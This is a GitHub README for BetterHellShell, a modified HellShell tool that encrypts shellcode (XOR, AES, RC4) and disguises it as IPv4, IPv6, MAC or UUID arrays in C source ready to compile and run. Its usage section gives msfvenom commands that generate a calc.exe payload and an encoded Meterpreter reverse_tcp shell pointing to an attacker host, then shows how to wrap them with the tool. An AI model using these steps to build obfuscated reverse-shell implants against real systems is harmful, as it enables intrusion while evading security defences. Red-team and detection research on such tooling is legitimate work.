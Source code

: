 # BetterHellShell

## Description

**BetterHellShell** is a payload encryption and obfuscation tool designed for obfuscating and encrypting shellcode or payloads.

This tool reads a payload from a file specified by the user, applies the selected encryption method (e.g., XOR, AES, RC4), and then obfuscates the payload using a chosen obfuscation method (MAC address, IPv4 address, UUID). If the payload is not already aligned with the required size, it will be padded to the nearest multiple required for obfuscation.

The program supports:
- Multiple encryption methods (XOR, AES, RC4).
- Several obfuscation techniques (IPv4, IPv6, MAC, UUID).
- Payload padding to ensure the correct size for obfuscation.

The encrypted and obfuscated payload, along with necessary decryption and deobfuscation functions, can then be written to a C file, which can then be compiled and executed or used as a base for more complex programs.

---

## Usage
First you will need to generate your payload:
  - Generate payload to open calc.exe (64-bit):
     ```c
     msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o payload.bin
     ```
  - Generate payload to get a meterpreter reverse_tcp (64-bit):
     ```c
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

Then you can run BetterHellShell as follow:
  ```
  BetterHellShell.exe payload.bin aes none > aes_only.c
  ```
  > This will encrypt the payload using AES. Then, the encrypted payload, key, IV, and the decryption function will be written in the `aes_only.c` file.
  
  ```
  BetterHellShell.exe payload.bin rc4 uuid > rc4_uuid.c
  ```
  > This will encrypt the payload using rc4 and then obfuscate in an array of UUIDs. It will then be written with, its key, and the decryption/deobfuscation functions  in the `rc4_uuid.c` file.
  
  ```
  BetterHellShell.exe payload.bin none ipv4 > ipv4_only.c
  ```
  > The payload won't be encrypted, just obfuscated into an array of IPv4 addresses. It will then be written into the `ipv4_only.c` with deobfuscation function.

[!] When compiling your resulted c code, if using AES encryption, make sure that it contains `aes.h` and `aes.c` in your project. You can use the Execute folder-project for ease of compiling.

## Credits
 - This project is a modified version of HellShell by @NUL0x4C and @mrd0x
 - It also uses AES implementation from [tiny-aes-c](https://github.com/kokke/tiny-AES-c)
